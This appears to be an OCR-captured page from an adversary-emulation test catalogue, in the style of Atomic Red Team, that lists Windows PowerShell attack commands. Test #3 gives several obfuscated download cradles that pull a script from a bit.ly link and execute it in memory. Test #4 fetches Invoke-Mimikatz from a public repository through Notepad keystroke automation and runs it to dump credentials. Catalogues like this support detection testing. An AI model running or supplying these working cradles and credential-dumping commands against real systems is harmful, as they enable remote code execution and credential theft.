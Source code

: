 ```powershell
Remove-Item $env:temp\*BloodHound.zip -Force
```

<br/>
<br/>

## Atomic Test #3 - Obfuscation Tests

Different obfuscated methods to test
Reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!

```powershell
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()
Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))
```

<br/>
<br/>

## Atomic Test #4 - Mimikatz - Cradlecraft PsSendKeys

Run mimikatz via PsSendKeys. Upon execution, automated actions will take place to open file explorer, open notepad and
input code, then mimikatz dump info will be displayed.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
$url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr
```
